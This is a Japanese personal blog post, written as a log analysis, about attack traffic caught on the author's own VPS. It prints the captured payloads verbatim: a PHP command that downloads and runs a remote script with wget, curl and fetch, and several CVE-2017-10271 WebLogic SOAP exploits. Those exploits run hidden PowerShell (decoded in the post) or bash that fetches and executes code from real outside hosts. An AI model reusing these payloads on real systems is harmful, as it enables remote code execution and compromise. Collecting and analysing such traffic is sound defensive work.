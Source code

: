 % Fri Aug 10 2018

## 実際に来た攻撃

さくらVPSを借りて自分一人が使うためのサーバマシンとして利用している.
その中で http POST されたデータを全て保存するということをひたすらやっていた.
主にはそれを自分用の記録として利用するためだったが、面白いので攻撃的な送信データも敢えて消さず残しておいた.

### ログ

ログそのまんま (自分自身からではないPOSTデータ) を置いておきます.
実行するとダメなコード片が含まれます.

- [ログ (276K)](10.log)

### 典型

```php
<?
system("cd /tmp ;rm -rf msr*;rm -rf live*;
wget -c -q  http://95.110.227.132/ch/wp-admin/js/a/msr;perl msr;rm -rf msr ;
curl -O  http://95.110.227.132/ch/wp-admin/js/a/msr;perl msr;rm -rf msr;
fetch  http://95.110.227.132/ch/wp-admin/js/a/msr;perl msr;rm -rf msr ");
?>
```

改行は勝手に補った.

phpとして解釈するのだろうか? (`<?php` で始まってないけど.)
中身は、スクリプトをダウンロードして実行するだけ.

スクリプトはというと、PCの情報っぽいものをひたすらかき集めて、最後に
`mail florindoringiga@gmail.com -s "Miron Coszma" < mail`
するというもの.
よく見ると、このスクリプト `msr` はどう見てもシェルスクリプトだし `#!/bin/bash` まで付いてるが、なぜ `perl` で実行してるんだろう.

### 典型2

```
POST /wls-wsat/CoordinatorPortType
```

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.8.0_131" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
  <array class="java.lang.String" length="3">
    <void index="0">
      <string>cmd.exe</string>
    </void>
    <void index="1">
      <string>/c</string>
    </void>
    <void index="2">
      <string>Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JABPAFMAPQAoAEcAVwBtAGkAIABXAGkAbgAzADIAXwBPAHAAZQByAGEAdABpAG4AZwBTAHkAcwB0AGUAbQApAC4AQwBhAHAAdABpAG8AbgA7ACQAVwBDAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAFcAQwAuAEgAZQBhAGQAZQByAHMAWwAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwBdAD0AIgBQAG8AdwBlAHIAUwBoAGUAbABsAC8AVwBMACAAJABPAFMAIgA7AEkARQBYACAAJABXAEMALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADAALgAyADUALgAxADQAOAAuADIAMAAyAC8AaQBtAGEAZwBlAHMALwB0AGUAcwB0AC8ARABMAC4AcABoAHAAJwApADsA</string>
    </void>
  </array>
    <void method="start"/>
</void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

POST先の "/wls-wsat/CoordinatorPortType" でぐぐったら、これが何か分かった.
[CVE-2017-10271](https://www.ipa.go.jp/security/ciadr/vul/20180115_WebLogicServer.html) であるらしい.

このSOAPの意味は正しくは分からないけれど、雰囲気、

```
cmd.exe /c "Start /Min...."
```

を実行するもので、明らかにWindows環境のそれっぽい.
`/c` オプションは、続く文字列をコマンドとしてただ実行するもの.
データの中にある `-E JABP...` であるが、これは base64 でデコードすると

```
$OS=(GWmi Win32_OperatingSystem).Caption;$WC=New-Object Net.WebClient;$WC.Headers['User-Agent']="PowerShell/WL $OS";IEX $WC.DownloadString('http://120.25.148.202/images/test/DL.php');
```

と出た.
`DL.php` というスクリプトをダウンロードするだけのPowerShell上で動くコードっぽい.
実行したあとどこで動かすのかよく分からないけど.

このURLは今は繋がらないものになっていて、IPだけが変えられたデータが送られてきてたので、一瞬だけサーバを立ち上げて攻撃してサーバを閉じて、というのを繰り返してるらしい.

#### 他バリエーション

実行するコマンドがちょっと違うだけ.

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8.0_151" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0">
              <string>/bin/bash</string>
            </void>
            <void index="1">
              <string>
                -c</string>
            </void>
            <void index="2">
              <string>
                wget -O - http://185.117.75.219/jquery.js | bash</string>
            </void>
          </array>
          <void method="start" />
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body />
</soapenv:Envelope>
```

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0">
              <string>
                \windows\system32\cmd.exe</string>
            </void>
            <void index="1">
              <string>
              </string>
            </void>
            <void index="2">
              <string>
                wershell.exe -WindowStyle Hidden $P = nEW-oBJECT sYSTEM.nET.wEBcLIENT;$P.DownloadFile('http://bbc.servehalflife.com/loveby.exe', 'C:\Windows\team.exe');START C:\Windows\team.exe</string>
            </void>
          </array>
          <void method="start"/>
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

### die 系 (こんにちわ Peppa!)

```php
h=die('Hello, Peppa!');
```

```php
h=die('Hello, Peppa!'.(string)(111111111*9));
```

2018年6月から急に現れたタイプで、短期間に集中的にアクセスが来る.
リクエスト先 (決まって `/*.php` という形のもの) やコードの中身がちょっとずつ変化しながらアクセスがあるので、手動で実験的にスクリプトを動かしたりしてるのではないだろうか.
中身はこのようなほとんど意味のない、`die` を呼ぶだけのもの.
`die` に引数渡すと、それを出力して終了するらしい.
凝った引数を渡す意味はよくわからない.
単に、送信したデータが動いていることを確認する意味だろう.

ちなみに Peppa でググると "Peppa Pig" という海外のテレビ番組のキャラクターが出てくる.
"Hello, Peppa!" という文字列も何か元ネタがあるのだろうか.
ぐぐっても「こんな変なアクセスがあった」という記事くらいしかヒットしない.

こういった攻撃的なアクセスにも流行性があるのが面白い.

